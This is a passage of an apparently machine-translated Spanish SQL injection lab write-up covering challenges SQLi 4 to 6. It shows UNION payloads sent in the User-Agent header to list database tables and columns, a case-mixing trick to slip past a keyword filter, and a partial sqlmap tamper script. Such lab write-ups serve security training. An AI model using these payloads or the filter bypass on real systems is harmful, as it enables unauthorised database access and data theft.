 ```bash
User-Agent: 'union(SELECT(group_concat(column_name))FROM(information_schema.columns)where(table_name='secretcustomers'));#
```

### SQLi 5

Esto es similar a SQLi 4, pero el desarrollador usó dobles-cuotas alrededor de las cuerdas.

PoC:

```bash
GET / HTTP/1.1
Host: 5.sqli.labs
User-Agent: "UNION(select('PoC String'));#

# To exploit by hand you have again to find the tables in the current database:

GET / HTTP/1.1
Host: 5.sqli.labs
User-Agent: "union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#
```

### SQLi 6

Las palabras reservadas de MySQL han sido filtradas. Usar **El caso RaNDom** no ayuda, como puede tener, por ejemplo, algo así como _InfoRMaTIon-ScheMa_ que se convertirá en _InfoRMaTI-ScheMa_, ya que _on_ o _ON_ es una palabra reservada válida.

PoC:

```bash

GET / HTTP/1.1
Host: 6.sqli.labs
User-Agent: ' UNiOn seLect @@versiOn;#

The only way to get around this kind of filtering during the exploitation automation phase is to use DifFeReNt CaSe for every letter
You have to write a simple tampering script:
```

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword with a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    ret_val = ""

    if payload:
        for i in range(len(payload)):
            if i % 2 == 0:
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
```